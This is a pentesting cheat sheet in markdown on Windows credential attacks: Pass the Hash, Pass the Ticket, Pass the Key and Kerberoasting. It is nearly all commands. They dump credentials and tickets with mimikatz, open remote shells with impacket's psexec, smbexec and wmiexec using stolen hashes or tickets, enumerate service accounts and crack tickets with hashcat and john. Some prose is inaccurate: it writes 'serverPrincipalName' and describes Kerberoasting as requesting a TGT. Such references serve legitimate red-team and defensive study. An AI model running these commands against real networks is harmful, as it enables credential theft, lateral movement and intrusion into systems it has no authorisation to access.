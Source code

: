 # Hashes

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

```
lsadump::sam 
sekurlsa::logonpasswords
```

#### Authenticate with hash

```
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM or :NT>
psexec.py <user>@<ip> -hashes <NTLM or :NT>
wmiexec.py <user>@<ip> -hashes <NTLM or :NT>

#mimikatz
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:powershell.exe
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

```
sekurlsa::tickets /export
```

#### Run on Windows

```
kerberos::ptt <.krbi file>
.\PsExec.exe -accepteula \\<target host> cmd
```

#### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Pass the Key

Obtain a TGT ticket by providing a valid NTLM hash, AES key or password. The obtained TGT token can then be used to access other machines.

#### Run on Windows

```
sekurlsa::ekeys

sekurlsa::pth /user:<user> /domain:<domain> /rc4:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes128:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:"<cmd>"
```

#### Run on linux

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. Vulnerable accounts need to have the flag `serverPrincipalName` set.

Enumerate remote targets

```
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
get-adobject -filter {serviceprincipalname -ne $null} -prop serviceprincipalname

setspn -T <domain> -Q */*
```

Enumerate  local sessions

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

Crack the .kirbi file

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
